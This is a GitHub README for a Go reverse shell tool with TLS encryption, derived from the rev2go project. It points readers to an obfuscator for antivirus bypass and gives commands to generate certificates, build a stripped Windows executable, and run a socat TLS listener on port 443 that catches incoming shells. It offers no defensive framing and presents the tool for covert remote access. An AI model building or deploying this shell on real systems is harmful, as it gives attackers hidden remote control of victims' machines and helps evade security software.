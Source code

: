 # go reverse shell secure

A TLS enabled implementation of a clean go reverse shell "rev2go" by sathish09.

Supports.
- commands with arguments
- tls encryption

Why Go? Check it out over at his blog. 
- https://medium.com/@sathish__kumar/undetectable-reverse-shell-with-golang-4fd4b1e172c1
- https://github.com/sathish09/rev2go

AV bypass, consider the following.
- https://github.com/unixpickle/gobfuscate

**Generate server certificate or disable client validation (yahoo! pew pew pew!)**
```
openssl genrsa -out server.key 2048 
openssl ecparam -genkey -name secp384r1 -out server.key
openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```

**Build for target platform**

Windows:
```
env GOOS=windows GOARCH=386 go build -ldflags "-s -w" -o gors.exe gors.go
```
Use build reference table for specific target architecture.
* https://github.com/sathish09/rev2go#build

**Listener**
```
socat openssl-listen:443,reuseaddr,fork,cert=/tmp/gors/server.pem,cafile=/tmp/gors/server.crt,verify=0 -
```

![image](https://user-images.githubusercontent.com/56988989/69015224-f394b480-0989-11ea-8e42-71038b778e06.png)

Enjoy~
